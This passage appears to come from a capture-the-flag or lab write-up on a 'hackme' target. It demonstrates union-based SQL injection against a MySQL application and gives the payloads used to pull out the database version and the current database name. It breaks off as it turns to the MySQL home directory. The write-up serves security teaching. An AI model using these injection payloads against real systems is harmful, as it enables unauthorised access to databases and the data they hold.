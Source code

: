 As we see in the screenshot above, all the numbers injected in each column are displayed, which facilitates our exploitation process.

Retrieving mysql version.

```bash
' and 1=2 union select @@version,2,3 #
```

![](/assets/images/hackme/screenshot-7.png)

Retrieving the current database.

```bash
' and 1=2 union select database(),2,3 #
```

![](/assets/images/hackme/screenshot-8.png)

Retrieving the mysql home directory.
